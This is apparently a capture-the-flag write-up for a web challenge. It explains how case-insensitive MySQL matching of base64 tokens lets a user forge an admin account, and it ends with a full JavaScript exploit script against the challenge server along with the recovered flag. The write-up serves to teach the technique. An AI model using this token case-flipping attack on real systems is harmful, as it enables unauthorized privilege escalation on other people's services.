






written by 

> I asked My friend Jason to build me a new e-commerce website. We just finished the login system and there's already bugs 🤦<br>
> Author: jro
> http://challs.nusgreyhats.org:33336

This was the hardest web challenge (and the only I didn't solve), but honestly it was quite an interesting challenge so I wanted to make a writeup about it.

<details>
<summary>We are basically only given an <code>index.js</code></summary>

const express = require('express');
const bodyParser = require('body-parser');
const util = require('util');
const app = express();
const port = 3000

const mysql = require("mysql");
const config = require("./config.json");

let connection = mysql.createConnection({
    host: config.host,
    user: config.user,
    password: config.password,
    database: config.database,
});

let query = util.promisify(connection.query).bind(connection);

function conn() {
    connection.connect(async function (err) {
        if (err) {
            // Try again, maybe database not started yet
            console.log(err);
            connection = mysql.createConnection({
                host: config.host,
                user: config.user,
                password: config.password,
                database: config.database,
            });
            query = util.promisify(connection.query).bind(connection);
            setTimeout(conn, 10_000);
            return;
        }
        console.log("Connected!");
    
        // Run migrations on startup
        await query("drop table if exists tokens");
        await query("drop table if exists users");
    
        await query("create table tokens(token varchar(255))")
        await query(`create table users(
            id INT AUTO_INCREMENT PRIMARY KEY,
            name varchar(255),
            password varchar(255),
            admin bool
        )`)
    
        console.log("Migration completed!");
    });
}

conn();

app.use(bodyParser.urlencoded({ extended: false }))

app.use("/", express.static("static"))

const decode = s => atob(s?.toString() ?? 'Z3JleWhhdHMh');

app.post('/api/login', async (req, res) => {
    try {
        let { password, username } = req.body;
        password = decode(password);
        username = decode(username);

        const result = await query("select admin from users where name = ? and password = ?", [username, password]);

        if (result.length != 1) {
            return res.json({ err: "Username or password did not match" });
        }

        if(result[0].admin) {
            res.json({ "err": false, "msg": config.flag});
        } else {
            res.json({ "err": false, "msg": "You've logged in successfully, but there's no flag here!"});
        }

        // Prevent too many records from filling up the database
        await query("delete from users where name = ? and password = ?", [username, password]);
    } catch (err) {
        console.log(err);
        res.json({ "err": true });
    }
})

app.post('/api/register/1', async (req, res) => {
    try {
        let { username } = req.body;

        username = decode(username);

        const token = btoa(JSON.stringify({
            name: username,
            admin: false
        }));

        await query("insert into tokens values (?)", [token]);

        res.json({ "err": false, "token": token });
    } catch (err) {
        console.log(err);
        res.json({ "err": true });
    }
})

app.post('/api/register/2', async (req, res) => {
    try {
        let { password, token } = req.body;
        password = decode(password);
        token = decode(token);

        const result = await query("select 1 from tokens where token = ?", [token]);

        if (result.length != 1) {
            return res.json({ err: "Token not found!" });
        }

        await query("delete from tokens where token = ?", [token]);

        const { name, admin } = JSON.parse(atob(token));

        await query("insert into users (name, password, admin) values (?, ?, ?)", [name.toString(), password, admin === true]);

        res.json({ "err": false });
    } catch (err) {
        console.log(err);
        res.json({ "err": true });
    }
})

app.listen(port, () => {
    console.log(`CosmoCraft Collective listening on port ${port}`)
})

</details>

We have two tables, one for users, and one for tokens. The condition to get the flag is to *register* an account such that admin = true.

A strange thing here is that there are two register endpoints:

- `/api/register/1`
    The first stores a base64 encoded JSON string of `{"name":username,"admin":false}` into the `tokens` table, where the username is a base64 decoded version of `username` in the request's body

app.post('/api/register/1', async (req, res) => {
    try {
        let { username } = req.body;

        username = decode(username);

        const token = btoa(JSON.stringify({
            name: username,
            admin: false
        }));

        await query("insert into tokens values (?)", [token]);

        res.json({ "err": false, "token": token });
    } catch (err) {
        console.log(err);
        res.json({ "err": true });
    }
})

- `/api/register/2`
    The second *actually* does the insertion into the `users` table, based on whether the `token` you provided exists within the database. (the `token` you provide in the request body gets base64 decoded again before the querying for some reason for some reason)

app.post('/api/register/2', async (req, res) => {
    try {
        let { password, token } = req.body;
        password = decode(password);
        token = decode(token);

        const result = await query("select 1 from tokens where token = ?", [token]);

        if (result.length != 1) {
            return res.json({ err: "Token not found!" });
        }

        await query("delete from tokens where token = ?", [token]);

        const { name, admin } = JSON.parse(atob(token));

        await query("insert into users (name, password, admin) values (?, ?, ?)", [name.toString(), password, admin === true]);

        res.json({ "err": false });
    } catch (err) {
        console.log(err);
        res.json({ "err": true });
    }
})


## What to do?

At first glance, this seems impregnable. After all, there isn't any SQL injection, prototype pollution, and javascript's `JSON` isn't known for any insecure deserialization or any of that nonsense. The only thing I tried during the CTF was to see if I could get some weird cutoff of the token due to the length limit of token in the database:
```js
        await query("create table tokens(token varchar(255))")
```
but creating a token longer than that just resulted in an error. That and weirdly cutting off a JSON string would just result in an error since JSON.stringify escapes all `"`s:
```js
> JSON.stringify({name:'x","admin":true,',admin:false})
'{"name":"x\\",\\"admin\\":true,","admin":false}'
```
(and no, you can't get around this no matter how hard you try)

## Solution

After the competition, when everyone was begging for a solution to this challenge, someone enlightened us with the reminder that <u>**SQL queries are case-insensitive by default**</u>.


With this in mind, let's try use this to our advantage:

## base64

The crux of the vulnerability here is that the database stores tokens in base64, which uses an alphabet of `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/` (and `=` for padding). Hence it is possible to mutate the data to our liking by flipping the case of the token.

For example, the `/register/1` could store `cndhbmRp` (`rwandi`) in table `tokens`. However, when we specify `cndHbmRp` (`rwGndi`) as our token in `/register/2`, it ***will find such a token*** in table `tokens` and <u>**use our mutated token**</u> as JSON data to parse.

### But how does base64 work?



Basically, it takes the string's binary representation and splits it into chunks of 6 bits each to be converted into the corresponding character:
|Index|Binary|Char|
|:---:|:----:|:--:|
|0    |000000|A   |
|⋮|⋮|⋮|
|25   |011001|Z   |
|26   |011010|a   |
|⋮|⋮|⋮|
|51	  |110011|z   |
|52	  |110100|0   |
|⋮|⋮|⋮|
|61	  |111101|9   |
|62	  |111110|+   |
|63	  |111111|/   |

As we can see from the diagram above, every 3 characters of the input/every 4 characters of the output are effectively independent from each other. So when we flip a letter in the base64 output, we will <u>**only affect each individual block of 3**</u>

## Flipping cases

Let's work backwards. We want a modified token such that `JSON.parse(atob(modifiedToken))` yields `"admin":true`. So the decoded modified token should at least start with something like:


<span class="punctuation">{</span><span class="attr">"name"</span><span class="punctuation">:</span><span class="string">"x"</span><span class="punctuation">,</span><span class="attr">"admin"</span><span class="punctuation">:</span><span class="literal"><span class="keyword">true</span></span><span class="punctuation">,</span>


However, we can't simply set our username as `x","admin":true,`. (as we have seen earlier, we can't have raw quotes in our username or they'll get escaped). We have to find case flips in the base64-encoded JSON string such that we do not have `"` (or `\`) in our username:



In the case of `?",`, we find that `btoa(?",) = PyIs`, and that `atob(Pyis) = ?(¬` does not contain `"` or `\`. So we have a successful case flip!



> Note that aside from `Pyis`, both `PYIs` and `PYis` could work here, since neither `atob(PYIs)` nor `atob(PYis)` contains `"` or `\`

So, we identify these triplets with `"` that need correction 💢💢💢:



And we work our way through each triplet. In my case, I get `?(¬ Ádmin\x8A:true,` as our username (note that this is ***not*** the only possible one by a long shot):



However, this still does not give a valid JSON:


{"name":"?","admin":true,","admin":false}


To get around this, we can do the opposite, where we flip the case of a character in the base64 encoded token that we query in `/api/register/2`



Yielding us:

{"name":"?","admin":true,"\x8Aadmin":false}


## Script

So now all that's left is to put a script together to solve the challenge:

```js
const username = 'xyz?(¬ Ádmin\x8A:true,'
const json2 = '{"name":"xyz?","admin":true,",\x8Aadmin":false}'
const password = 'rwandi'

async function main(){
    let response1 = await fetch("http://challs.nusgreyhats.org:33336/api/register/1", {
        "headers": { "content-type": "application/x-www-form-urlencoded" },
        "body": `username=${btoa(username)}`,
        "method": "POST"
    });
    let json = await response1.json()

    const token1 = btoa(JSON.stringify({
        name: username,
        admin: false
    }));
    
    const token2 = btoa(json2)
    
    if (token1.toLowerCase() != token2.toLowerCase()) console.error("uh oh")

    const { name, admin } = JSON.parse(atob(token2));
    if (!admin) console.err('uh oh')

    let response2 = await fetch("http://challs.nusgreyhats.org:33336/api/register/2", {
        "headers": { "content-type": "application/x-www-form-urlencoded" },
        "body": `password=${btoa(password)}&token=${btoa(token2)}`,
        "method": "POST"
    });
    json = await response2.json()
    console.log(json)

    if (json.err) return console.error('register/2 failed')

    let response3 = await fetch("http://challs.nusgreyhats.org:33336/api/login", {
        "headers": { "content-type": "application/x-www-form-urlencoded" },
        "body": `password=${btoa(password)}&username=${btoa("xyz?")}`,
        "method": "POST"
    });
    json = await response3.json()
    console.log(json)
}
main()
```


{ err: false }
{ err: false, msg: 'grey{fr13nd5h1p_3nd3d_w17h_my5ql}' }
